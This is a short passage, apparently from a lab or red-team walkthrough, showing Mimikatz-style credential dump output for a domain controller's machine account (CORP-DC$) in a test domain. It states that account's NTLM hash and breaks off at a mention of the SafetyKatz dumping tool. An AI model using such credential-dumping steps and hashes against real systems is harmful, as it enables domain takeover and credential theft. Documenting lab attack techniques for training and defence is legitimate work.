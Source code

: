 ```
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : CORP-DC$
Domain            : DEV-ANGELIST
Logon Server      : (null)
Logon Time        : 5/31/2025 11:42:17 AM
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : CORP-DC$
         * Domain   : DEV-ANGELIST
         * Password : (null)
        kerberos :
         * Username : corp-dc$
         * Domain   : DEV-ANGELIST.LAB
         * Password : (null)
        ssp :
        credman :
```

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

CORP-DC's NTLM Hash: `11bc07660f7c9a2d8f7cead855b8c72b`

Using SafetyKatz:
